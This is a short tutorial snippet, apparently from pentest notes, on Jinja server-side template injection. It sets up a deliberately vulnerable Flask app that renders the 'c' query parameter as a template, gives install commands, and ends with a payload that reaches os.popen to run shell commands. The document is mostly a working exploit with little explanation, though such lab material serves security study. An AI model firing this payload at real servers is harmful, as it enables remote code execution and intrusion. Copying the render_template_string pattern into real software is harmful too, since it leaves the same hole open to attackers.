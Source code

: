# Templating (Jinja)
## Setup
```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        return "Bienvenue!"

if __name__ == "__main__":
    app.run(debug=True)
```
Run it
```bash
sudo apt-get install python-pip
pip install flask --user
python app.py
```

## Injection
RCE: use this param
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```